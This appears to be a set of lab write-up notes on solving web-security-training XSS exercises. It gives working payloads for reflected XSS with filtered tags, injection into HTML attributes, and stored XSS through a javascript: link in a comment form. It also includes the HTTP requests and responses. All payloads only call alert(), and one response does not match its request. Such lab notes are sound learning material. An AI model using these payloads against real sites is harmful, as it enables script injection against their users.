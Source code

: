 This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

**Sniper attack with xss tags list ->**&#x20;

`GET /?search=<§§> HTTP/1.1`

_animatetransform, image, svg, title_

```
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded.

```
/?search=test

In response:
<input type=text placeholder='Search the blog...' name=search value="test">
```

```
"><script>alert(1)</script>

In response:
<input type=text placeholder='Search the blog...' name=search value=""&gt;&lt;script&gt;alert(1)&lt;/script&gt;">
```

```
" autofocus onfocus=alert(1) x="
OR
"onmouseover="alert(1)
```

### Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

```
POST /post/comment HTTP/1.1
...
csrf=5W6i2nTpsEcdB99eWpnMALhpOtFoC8qF&postId=6&comment=test1&name=test2&email=test3%40test.com&website=https%3A%2F%2Fwww.test4.com

In response:
<a id="author" href="https://www.test4.com">test2</a>
```

```
POST /post/comment HTTP/1.1
...
...website=javascript%3Aalert%280%29

In response:
<a id="author" href="javascript:alert(document)">test</a>
```
